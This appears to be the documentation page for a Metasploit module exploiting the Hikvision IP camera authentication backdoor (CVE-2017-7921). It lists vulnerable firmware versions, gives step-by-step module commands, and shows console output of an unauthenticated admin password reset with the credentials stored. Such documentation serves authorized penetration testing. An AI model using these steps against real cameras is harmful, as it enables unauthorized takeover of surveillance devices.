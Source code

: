 ## Vulnerable Application

Many Hikvision IP cameras contain a backdoor that allows unauthenticated impersonation of any configured user account.
Our dear programmers from Hikvision left a piece of a code in the vulnerable firmware that has a hard coded magic string that bypasses
all security on the camera and will provide full admin access.
This allows a hacker to completely control the camera and modify any setting or retrieve sensible information.

This module allows the attacker to perform an unauthenticated password change of any vulnerable Hikvision IP Camera to gaining full
administrative access. The vulnerability can be exploited for all configured users.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

Versions:
* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

1. `use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set USERNAME <name of user>`
1. `set PASSWORD <new password>`
1. `set ID <id of user>`
1. `run`
1. You should get a message that the password for the user successfully has been changed.

## Options

There is an option `STORE_CRED` that allows you to store the user and password credentials
at the Metasploit database for further use.

## Scenarios

### Hikvision unauthenticated password reset vulnerability check

```
msf6 > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) >
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > check

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) >
```

### Hikvision unauthenticated password reset of the admin user with id=1

```
msf6 > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) >
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set PASSWORD Pa$$W0rd
PASSWORD => Pa$$W0rd
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set ID 1
ID => 1
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set STORE_CRED true
STORE_CRED => true
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[*] Starting the password reset for user:admin and sending the payload...
[+] Password reset for user:admin is successful completed !!!
[*] Please log in with your new password:Pa$$W0rd
[*] Credentials for user:admin are added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) 
```

## Limitations
No limitations.
